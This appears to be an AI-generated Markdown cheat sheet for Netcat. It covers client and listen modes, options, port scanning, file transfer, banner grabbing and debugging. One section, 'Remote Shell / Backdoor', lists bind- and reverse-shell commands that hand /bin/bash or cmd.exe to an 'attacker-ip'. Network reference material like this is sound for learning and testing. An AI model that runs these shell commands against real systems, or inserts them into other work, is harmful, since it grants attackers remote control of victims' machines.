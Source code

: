 Of course. Here is the Netcat cheat sheet in a clean, professional Markdown format.

# Netcat (nc) Cheat Sheet

## Overview
Netcat is the "Swiss Army knife" of networking, used for reading from and writing to network connections using TCP or UDP.

---

## Core Syntax & Modes

### Basic Command Structure
```bash
nc [OPTIONS] HOST PORT
```

### 1. Connect Mode (Client)
Initiate a connection to a remote host.

```bash
# Basic TCP connection
nc example.com 80

# Basic UDP connection
nc -u example.com 53

# Connect with verbose output
nc -v example.com 443

# Connect with a specific source port
nc -p 31337 example.com 80
```

### 2. Listen Mode (Server)
Listen for incoming connections.

```bash
# Listen on a TCP port
nc -l -p 4444

# Listen on a UDP port
nc -u -l -p 4444

# Listen verbosely and keep accepting new connections
nc -lvk -p 4444

# Listen on a specific interface IP
nc -l -p 4444 -s 192.168.1.100
```

---

## Essential Options

| Option | Description                                                                 |
| :----- | :-------------------------------------------------------------------------- |
| `-l`   | Listen mode (act as a server)                                               |
| `-p`   | Specify local port number                                                   |
| `-u`   | Use UDP mode (default is TCP)                                               |
| `-v`   | Verbose output (`-vv` for more verbosity)                                   |
| `-n`   | Do not resolve DNS names (use only IP addresses)                            |
| `-z`   | Zero-I/O mode (used for port scanning, doesn't send data)                   |
| `-w`   | Set a connection timeout in seconds (e.g., `-w 5`)                          |
| `-k`   | Keep listening after a client disconnects (accept multiple connections)     |
| `-s`   | Specify the source IP address to use                                        |
| `-e`   | Execute a program after connecting (e.g., `-e /bin/bash` for a shell)       |

---

## Practical Use Cases

### Port Scanning
```bash
# Scan a single port
nc -zv target.com 22

# Scan a range of ports
nc -zv target.com 20-25

# Scan specific ports
nc -zv target.com 80 443 8080

# UDP port scan
nc -zuv target.com 53

# Fast scan with a short timeout
nc -zv -w 1 target.com 1-100
```

### File Transfers
```bash
# RECEIVER (waits for file)
nc -l -p 4444 > received_file.txt

# SENDER (sends file)
nc -w 3 receiver-ip 4444 < file_to_send.txt

# Transfer a whole directory (using tar)
# Receiver: nc -l -p 4444 | tar xzvf -
# Sender: tar czvf - /path/to/dir/ | nc receiver-ip 4444
```

### Remote Shell / Backdoor
```bash
# BIND SHELL (Victim listens, attacker connects)
# On Victim: nc -lv -p 4444 -e /bin/bash
# On Attacker: nc victim-ip 4444

# REVERSE SHELL (Victim connects to attacker)
# On Attacker: nc -lv -p 4444
# On Victim: nc attacker-ip 4444 -e /bin/bash

# Windows Reverse Shell
# On Attacker: nc -lv -p 4444
# On Windows Victim: nc.exe attacker-ip 4444 -e cmd.exe
```

### Network Debugging & Interaction
```bash
# Manual HTTP Request
nc example.com 80
GET / HTTP/1.1
Host: example.com
[Enter twice]

# Test SMTP Server
nc -v mail.server.com 25
HELO test.com

# Simple Chat Session
# User 1: nc -l -p 4444
# User 2: nc user1-ip 4444
```

### Banner Grabbing
```bash
# Grab SSH Banner
echo "" | nc -v -w 2 target.com 22

# Grab SMTP Banner
echo "QUIT" | nc -v -w 2 target.com 25

# Grab HTTP Banner
printf "GET / HTTP/1.0\r\n\r\n" | nc -v target.com 80
```

---

## Important Notes & Security

*   **The `-e` flag is often removed from modern Netcat versions for security reasons.** You may need to use other techniques or a different version of Netcat for reverse shells.
*   **Netcat traffic is unencrypted.** Never use it for sensitive data on untrusted networks. Use `openssl s_client`/`s_server` or SSH tunnels for encryption.
*   **Consider modern alternatives** like `ncat` (from Nmap, which supports SSL) or `socat` for more advanced features and reliability.

---

## Quick Command Reference

| Task | Command |
| :--- | :--- |
| **Quick Listen** | `nc -lvp 4444` |
| **Quick Connect** | `nc target.com 80` |
| **Quick Port Check** | `nc -zv target.com 443` |
| **Send a File** | `nc -w 3 host 4444 < file.txt` |
| **Receive a File** | `nc -l -p 4444 > file.txt` |